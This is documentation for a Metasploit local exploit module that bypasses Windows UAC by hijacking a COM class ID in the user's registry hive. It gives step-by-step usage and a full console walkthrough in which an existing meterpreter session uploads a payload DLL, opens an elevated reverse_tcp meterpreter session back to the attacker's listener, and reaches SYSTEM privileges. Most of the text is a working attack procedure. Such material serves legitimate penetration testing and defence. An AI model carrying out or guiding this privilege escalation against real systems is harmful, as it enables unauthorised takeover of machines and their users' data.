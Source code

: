 ## Introduction

This module will bypass UAC on Windows 7 through to 10 RS3 by hijacking a COM Class ID
that is located in the current user hive. This key contains a reference to a DLL that
contains a chosen payload. Multiple COM vectors are defined in this module and one is
chosen at random at runtime.

The module modifies the registry in order for this exploit to work. The modification is
reverted once the exploitation attempt has finished.

This module requires that the payload architecture matches the target operating system
architecture. This is due to the fact that the underlying binaries that are invoked
match the system architecture.

If a custom DLL is to be used with `EXE::Custom`, that DLL must match the system
architecture, and should call `ExitProcess()` after starting the payload in a
different process.

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_comhijack`.
1. Set the `PAYLOAD` and configure it correctly, making sure the architecture is correct.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenario

```
msf exploit(bypassuac_comhijack) > sessions

Active sessions
===============

  Id  Type                     Information                           Connection
  --  ----                     -----------                           ----------
  1   meterpreter x64/windows  DESKTOP-5A73R51\oj @ DESKTOP-5A73R51  xxx.xx.255.1:8443 -> xxx.xx.255.159:51474 (xxx.xx.255.159)

msf exploit(bypassuac_comhijack) > sessions -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-5A73R51
OS              : Windows 10 (Build 14393).
Architecture    : x64
System Language : en_AU
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf exploit(bypassuac_comhijack) > options

Module options (exploit/windows/local/bypassuac_comhijack):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     xxx.xx.255.1     yes       The listen address
   LPORT     8443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(bypassuac_comhijack) > run

[*] [2017.08.16-12:58:31] UAC is Enabled, checking level...
[+] [2017.08.16-12:58:31] Part of Administrators group! Continuing...
[+] [2017.08.16-12:58:32] UAC is set to Default
[+] [2017.08.16-12:58:32] BypassUAC can bypass this setting, continuing...
[*] [2017.08.16-12:58:33] Targeting Event Viewer via HKCU\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931} ...
[*] [2017.08.16-12:58:33] Uploading payload to C:\Users\oj\AppData\Local\Temp\DJAyEYXA.dll ...
[*] [2017.08.16-12:58:33] Executing high integrity process ...
[*] [2017.08.16-12:58:34] Sending stage (1188415 bytes) to xxx.xx.255.159
[*] Meterpreter session 2 opened (xxx.xx.255.1:8443 -> xxx.xx.255.159:51480) at 2017-08-16 12:58:35 +1000
[*] [2017.08.16-12:58:38] Cleaining up registry ...
[!] [2017.08.16-12:58:39] This exploit may require manual cleanup of 'C:\Users\oj\AppData\Local\Temp\DJAyEYXA.dll' on the target
msf exploit(bypassuac_comhijack) > sessions

Active sessions
===============

  Id  Type                     Information                           Connection
  --  ----                     -----------                           ----------
  1   meterpreter x64/windows  DESKTOP-5A73R51\oj @ DESKTOP-5A73R51  xxx.xx.255.1:8443 -> xxx.xx.255.159:51474 (xxx.xx.255.159)
  2   meterpreter x64/windows  DESKTOP-5A73R51\oj @ DESKTOP-5A73R51  xxx.xx.255.1:8443 -> xxx.xx.255.159:51480 (xxx.xx.255.159)

msf exploit(bypassuac_comhijack) > sessions -1
[*] Starting interaction with 2...

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
